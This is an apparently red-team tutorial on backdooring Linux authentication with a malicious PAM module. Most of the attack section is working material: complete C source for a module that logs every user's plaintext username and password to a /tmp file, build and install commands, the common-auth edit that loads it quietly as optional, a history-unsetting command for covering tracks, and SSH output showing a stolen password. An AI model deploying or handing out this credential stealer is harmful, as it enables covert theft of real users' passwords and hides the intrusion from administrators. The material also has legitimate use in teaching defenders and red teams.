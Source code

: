 # Crafting Malicious Pluggable Authentication Modules for Persistence, Privilege Escalation, and Lateral Movement

## Synopsis

Since its inception in 1997, PAM (Pluggable Authentication Modules) have served as a library for enabling local system administrators to choose how individual applications authenticate users. A PAM module is a single executable binary file that can be loaded by the PAM interface library, which is configured locally with a system file, `/etc/pam.conf`, to authenticate a user request via the locally available authentication modules. The modules themselves will usually be located in the directory `/lib/security` or the `/usr/lib64/security` directory depending on architecture and operating system, and take the form of dynamically loadable object files.

In this guide, we will discuss how these modules can be harnessed to create malicious binaries for capturing credentials to use in persistence, privilege escalation, and lateral movement.

## PAM Components

![PAM](https://www.redhat.com/sysadmin/sites/default/files/styles/embed_large/public/2020-06/PAM_diagramm4.png?itok=1M-9Td1w)

---

As we manipulate authentication programs, here are the useful file locations for different PAM components:

### /usr/lib64/security

A collection of PAM libraries that perform various checks. Most of these modules have man pages to explain the use case and options available.

```console
root@salsa:~# ls /usr/lib64/security
pam_access.so      pam_faillock.so       pam_lastlog.so    pam_nologin.so    pam_setquota.so    pam_tty_audit.so
pam_cap.so         pam_filter.so         pam_limits.so     pam_permit.so     pam_shells.so      pam_umask.so
pam_debug.so       pam_fprintd.so        pam_listfile.so   pam_pwhistory.so  pam_sss_gss.so     pam_unix.so
pam_deny.so        pam_ftp.so            pam_localuser.so  pam_pwquality.so  pam_sss.so         pam_userdb.so
pam_echo.so        pam_gdm.so            pam_loginuid.so   pam_rhosts.so     pam_stress.so      pam_usertype.so
pam_env.so         pam_gnome_keyring.so  pam_mail.so       pam_rootok.so     pam_succeed_if.so  pam_warn.so
pam_exec.so        pam_group.so          pam_mkhomedir.so  pam_securetty.so  pam_systemd.so     pam_wheel.so
pam_extrausers.so  pam_issue.so          pam_motd.so       pam_selinux.so    pam_time.so        pam_xauth.so
pam_faildelay.so   pam_keyinit.so        pam_namespace.so  pam_sepermit.so   pam_timestamp.so
```

### /etc/pam.d

A collection of configuration files for applications that call `libpam`. These files define which modules are checked, with what options, in which order, and how to handle the result. These files may be added to the system when an application is installed and are frequently edited by other utilities.

```console
root@salsa:~# ls /etc/pam.d/
chfn             common-session                 gdm-launch-environment          login     runuser    su-l
chpasswd         common-session-noninteractive  gdm-password                    newusers  runuser-l
chsh             cron                           gdm-smartcard                   other     sshd
common-account   cups                           gdm-smartcard-pkcs11-exclusive  passwd    su
common-auth      gdm-autologin                  gdm-smartcard-sssd-exclusive    polkit-1  sudo
common-password  gdm-fingerprint                gdm-smartcard-sssd-or-password  ppp       sudo-i
```

### /etc/security

A collection of additional configuration files for specific modules. Some modules, such as pam_access and pam_time, allow additional granularity for checks. When an application configuration file calls these modules, the checks are completed using the additional information from its corresponding supplemental configuration files. Other modules, like pam_pwquality, make it easier for other utilities to modify the configuration by placing all the options in a separate file instead of on the module line in the application configuration file.

```console
root@salsa:~# ls /etc/security/
access.conf      faillock.conf  limits.conf  namespace.conf  namespace.init  pam_env.conf    sepermit.conf
capability.conf  group.conf     limits.d     namespace.d     opasswd         pwquality.conf  time.conf
```

### /var/log/secure

Most security and authentication errors are reported to this log file. Permissions are configured on this file to restrict access.

## Developing the Malicious Module

For this demonstration, imagine that you have gained access to a Linux system, discovering a misconfigured cronob that allowed you to escalate privileges to root. To laterally move throughout the network, you want to capture credentials of legitimate users who occasionally login to the system. To achieve this, we will craft a PAM to capture and output the credentials of the user to a `tmp` file.

After conducting initial reconnaissance, we identify that the system is running `Ubuntu 22.04`:

```console
root@salsa:~# unset HISTSIZE HISTFILESIZE HISTFILE # Covering tracks
root@salsa:~# uname -a
Linux salsa 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov  2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Because this device is `x86_64` and running Ubuntu, research reveals that the modules are located within the `/usr/lib/x86_64-linux-gnu/security/` directory. With this in mind, we can begin to craft our executable using C. The following code captures and outputs credentials to a `tmp` file:

```C
#include <security/pam_appl.h>
#include <stdio.h>

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    const char *username;
    const char *password;

    // Get the username and password
    if (pam_get_user(pamh, &username, "Username: ") != PAM_SUCCESS) {
        return PAM_AUTH_ERR;
    }

    if (pam_get_authtok(pamh, PAM_AUTHTOK, &password, "Password: ") != PAM_SUCCESS) {
        return PAM_AUTH_ERR;
    }

    // Write creds to a tmp file
    FILE *file = fopen("/tmp/pam_su.tmp", "a");
    if (file != NULL) {
        fprintf(file, "Username: %s\nPassword: %s\n\n", username, password);
        fclose(file);
    } else {
        return PAM_AUTH_ERR;
    }

    return PAM_SUCCESS;
}

int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS;
}
```

To compile the binary, we can make use of `gcc` and `libpam0g-dev` to build the PAM module:

```console
gcc -fPIC -fno-stack-protector -c pam_su.c
```

Now that we have created the binary, we can link it with PAM without having to restart the system:

```console
ld -x --shared -o /usr/lib/x86_64-linux-gnu/security/pam_su.so  pam_su.o
```

Now that the binary is created and linked, we will edit the PAM configuration file `/etc/pam.d/common-auth` to include our malicious module. This specific file is used to define authentication-related PAM modules and settings that are common across multiple services, whether this be SSH, LDAP, or even VNC. Instead of duplicating authentication configurations in each individual service file, administrators centralize common authentication settings in this file.

```console
root@salsa:~# vim /etc/pam.d/common-auth 

#
# /etc/pam.d/common-auth - authentication settings common to all services
#
# This file is included from other service-specific PAM config files,
# and should contain a list of the authentication modules that define
# the central authentication scheme for use on the system
# (e.g., /etc/shadow, LDAP, Kerberos, etc.).  The default is to use the
# traditional Unix authentication mechanisms.
#
# As of pam 1.0.1-6, this file is managed by pam-auth-update by default.
# To take advantage of this, it is recommended that you configure any
# local modules either before or after the default block, and use
# pam-auth-update to manage selection of other modules.  See
# pam-auth-update(8) for details.

# here are the per-package modules (the "Primary" block)
auth    [success=2 default=ignore]      pam_unix.so nullok
auth    [success=1 default=ignore]      pam_sss.so use_first_pass
# here's the fallback if no module succeeds
auth    requisite                       pam_deny.so
# prime the stack with a positive return value if there isn't one already;
# this avoids us returning an error just because nothing sets a success code
# since the modules above will each just jump around
auth    required                        pam_permit.so
# and here are more per-package modules (the "Additional" block)
auth    optional                        pam_cap.so
auth    optional                        pam_su.so
# end of pam-auth-update config
```

Within this file, we can inconspicuously add our optional authentication module as it is not required to succeed for authentication to occur. With this in place, we can monitor the `/tmp/pam_su.tmp` for new logins. To test the module, I created a new user named `sysadmin` and logged in via SSH:

```console
➜  ~ ssh sysadmin@10.0.0.104
sysadmin@10.0.0.104's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-37-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

$ cat /tmp/pam_su.tmp
Username: sysadmin
Password: hacked
```

## Conclusion

I hope that this guide was an informative journey to improving your penetration testing and red-teaming skills. If you have any questions, enjoyed the content, or would like to check out more of our research, feel free to visit our GitHub.

